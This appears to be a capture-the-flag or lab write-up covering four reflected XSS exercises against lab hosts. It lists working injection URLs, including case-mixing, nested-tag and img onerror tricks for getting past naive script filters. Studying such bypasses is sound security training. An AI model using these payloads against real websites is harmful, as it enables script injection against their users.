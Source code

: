 ## XSS

### 01
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-7ea3acc7-d07c7b64.libcurl.st/index.php?name=hacker

exploit:
http://ptl-7ea3acc7-d07c7b64.libcurl.st/index.php?name=hacker<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>

notes:
### 02
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-f19cd98f-bb70679a.libcurl.st/index.php?name=hacker

exploit:
http://ptl-f19cd98f-bb70679a.libcurl.st/index.php?name=hacker<sCript>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</sCript>
notes:

### 03
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-a5632114-d660216e.libcurl.st/index.php?name=hacker

exploit:
http://ptl-a5632114-d660216e.libcurl.st/index.php?name=hackera<scr<script>ipt>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</scr</script>ipt>

notes:
- Filtering `<script>` only one time, the idea is to inject it multiple times like: `<scr<script>ipt>`
### 04
chl:
`<script>alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')</script>`

url:
http://ptl-9ff0e15c-15cd4954.libcurl.st/index.php?name=hacker

exploit:
- `http://ptl-9ff0e15c-15cd4954.libcurl.st/index.php?name=hacker<img src=. onerror="alert(1)"/>`
- `http://ptl-9ff0e15c-15cd4954.libcurl.st/index.php?name=hacker<img src=. onerror="alert('e6cb11a5-8d77-412b-9cfc-d99fc6bbe509')"/>`

notes:

